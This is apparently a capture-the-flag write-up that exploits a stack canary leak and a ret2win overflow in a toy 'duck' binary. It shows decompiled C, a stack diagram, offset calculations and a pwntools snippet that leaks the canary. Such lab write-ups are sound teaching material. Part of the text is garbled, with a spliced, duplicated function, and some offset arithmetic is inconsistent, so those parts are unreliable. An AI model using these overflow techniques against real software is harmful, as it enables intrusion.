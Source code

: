 # Enumeration

First of all, we start with a `checksec`:  

![Screenshot from 2025-03-27 00-38-37](https://github.com/user-attachments/assets/3920eca5-f740-4ad0-ad07-975e511cdbbb)

The stack Canary was enable to prevent buffer overflow attack.
To bypass that, we need to know the value of Canary and override with its value. if not, the program will detect canary changing, so we will fail and get:

`` *** stack smashing detected ***: terminated crash..``

### Disassembly

Starting with `main()`:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  duckling(argc, argv, envp);
  return 0;
}

```

As we can see, `main` only calls `duckling()`. Taking a look there.

```c
unsigned __int64 duckling()
{
  char *v1; // [rsp+8h] [rbp-88h]
  _QWORD buf[4]; // [rsp+10h] [rbp-80h] BYREF
  _QWORD v3[11]; // [rsp+30h] [rbp-60h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(buf, 0, sizeof(buf));
  memset(v3, 0, 80);
  printf("Quack the Duck!\n\n> ");
  fflush(_bss_start);
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  if ( !v1 )
  {
    error("Where are your Quack Manners?!\n");
    exit(1312);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
  read(0, v3, 0x6AuLL);
  puts("Did you really expect to win a fight against a Duck?!\n");
  return v4 - __readfsqword(0x28u);
}
```

As we can see, there are 2 buffers, `buf[4]` and `v3[11]` of unknown size so far. The juice of the challenge is these 2 lines:

```c
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```

Our first input goes to `buf` and we get a leak of `v1 + 32`. That means we can leak up to `32` from value of v1 where the string `Quack Quack ` is found in our input string. Luckily, we see that we can leak the `canary` address at such offset when debug.
After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
unsigned __int64 duck_attack()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  int fd; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  fd = open("./flag.txt", 0);
  if ( fd < 0 )
  {
    perror("\nError opening flag.txt, please contact an Administrator\n");
    exit(1);
  }
  while ( read(fd, &buf, 1uLL) > 0 )
    fputc(buf, _bss_start);
  close(fd);.
After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
unsigned __int64 duck_attack()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  return v3 - __readfsqword(0x28u);
}
```

### Debugging 
I used IDA pro, so it automatically debug and find the address of variables for me. You can see that on the comments of the disassembled code.

Now, to prove all this theory we can check the debugging. 
```
Địa chỉ cao    +----------------+
               | Địa chỉ trở về |
        rbp -> +----------------+
               |Canary[rbp-0x8] |  <-- v4
               +----------------+
               |                |
               |     .....      |  (các biến khác, padding)
               |                |
               +----------------+
               |                |
               |   buf[rbp-0x80]    |  <-- buf[4] bắt đầu từ [rbp-0x80]
               |                |
               +----------------+
               |                |
        rsp -> +----------------+
Địa chỉ thấp
```
![image](https://github.com/user-attachments/assets/543c1298-bbd7-4150-92b8-1616e78584cb)

So the distance between Canary and buf is `0x80-0x8 = 0x78` bytes. But, to override the Canary, we need one more byte so need to pass 121 bytes to get Canary leak.
And then `\x00` is overrided which is the last byte of canary.
```c
  v1 = strstr((const char *)buf, "Quack Quack ");
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```
Thus, `v1+32=121` and  v1 is the first letter that is found from input. 
So we need to send:
`89*'A' + "Quack Quack "(12 bytes) = total 101 bytes = 0x65`
```python
r.sendlineafter('> ', b'A'* (0x65 - len('Quack Quack ')) + b'Quack Quack ')

r.recvuntil('Quack Quack ')

canary = u64(r.recv(7).rjust(8, b'\x00'))
```

After have Canary value, we calculate the distance between the second input and the canary as the previous one.
`0x60-0x8= 88 bytes`. This time we dont need to plus 1 byte because we have the canary value.
So the payload is:
`88*'A' + Canary + 8 bytes (save rbp) + return address(duck_attack)`.
In my code, i write `canary*2`. because one for canary, one for override the 8 bytes save rbp.

# Result
![image](https://github.com/user-attachments/assets/60d16b42-810e-4b92-acc2-8eedfdfa18f2)


